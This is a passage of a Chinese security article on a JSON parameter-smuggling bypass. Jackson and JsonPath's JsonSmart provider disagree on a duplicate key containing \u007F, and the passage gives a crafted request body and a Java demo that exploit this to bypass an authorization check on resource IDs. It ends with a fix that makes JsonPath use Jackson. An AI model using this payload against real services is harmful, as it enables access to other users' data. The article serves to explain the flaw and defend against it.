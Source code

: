 ![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-695d161cf4cc773b95fa8c321f070a04f28dd5a4.png)

 而jackson并没有对`\u007F`进行额外的处理，那么也就是说，可以尝试构造如下的body进行处理：

```Java
{"activit\\u0079Id":1,"activit\\u0079Id\u007F":3}
```

 例如下面的案例代码，可以看到最终的结果两者存在解析差异，那么只需要在首个参数设置他人的资源id，然后第二个在包含`\u007F`内容的重复参数里写入当前用户的资源ID，结合解析差异以及默认情况下重复键值取最后一个的特性，即可绕过对应的鉴权逻辑：

```Java
String body ="{\"activit\\u0079Id\":1,\"activit\\u0079Id\u007F\":3}";

//jackson解析
ObjectMapper objectMapper = new ObjectMapper();
objectMapper.configure(DeserializationFeature.FAIL_ON_UNKNOWN_PROPERTIES, false);//模拟springboot的默认配置
User user = objectMapper.readValue(body, User.class);
System.out.println("jackson parse result:"+user.getActivityId());
//jackson parse result:1

//JsonSmartJsonProvider解析
DocumentContext context = JsonPath.parse(body);
System.out.println("JsonSmartJsonProvider parse result:"+(String)context.read("$.activityId", String.class, new Predicate[0]));
//JsonSmartJsonProvider parse result:3
```

0x02 其他
=======

 JsonPath还支持多种JsonProvider，这里可以指定Jackson进行解析，保证跟SpringWeb中的@RequestBody的解析模式一致，避免参数走私导致的绕过风险：

```Java
Configuration.setDefaults(new Configuration.Defaults() {

    private final JsonProvider jsonProvider = new JacksonJsonProvider();
    private final MappingProvider mappingProvider = new JacksonMappingProvider();

    @Override
    public JsonProvider jsonProvider() {
        return jsonProvider;
    }

    @Override
    public MappingProvider mappingProvider() {
        return mappingProvider;
    }

    @Override
    public Set<Option> options() {
        return EnumSet.noneOf(Option.class);
    }
});
```